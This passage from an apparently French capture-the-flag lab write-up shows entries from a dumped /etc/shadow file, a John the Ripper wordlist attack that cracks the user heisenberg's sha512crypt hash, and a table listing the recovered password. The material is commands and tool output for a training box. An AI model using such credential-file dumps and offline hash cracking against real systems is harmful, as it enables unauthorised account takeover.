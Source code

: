 ```
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18537:0:99999:7:::
heisenberg:$6$txq5sYQupBAEMo7V$LqF1/IL.c0.QgKgpnAA204Mi.fGTJ2kA3Rpv.RnLBHF/4ivvsj655Yx8kh3asuGtjObOO0KQ4jl5nIjIr.0Ad0:18537:0:99999:7:::
```

&nbsp;

🧨 **JohnTheRipper**

Crack du `hash` de l’utilisateur

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john kb-vuln1 --wordlist=/usr/share/wordlists/metasploit/password.lst            
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 29.48% (ETA: 23:09:27) 0g/s 3497p/s 3497c/s 3497C/s eukaryote..expatriation
methamphetamine  (heisenberg)     
1g 0:00:00:13 DONE (2025-01-17 23:09) 0.07315g/s 3558p/s 3558c/s 3558C/s melmoth..mexican
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[windows@windows]─[~/Desktop]
└──╼ $john --show kb-vuln1 
heisenberg:methamphetamine:18537:0:99999:7:::

1 password hash cracked, 0 left
```

&nbsp;

Cred trouver

| User | Password |
| --- | --- |
| heisenberg | methamphetamine |
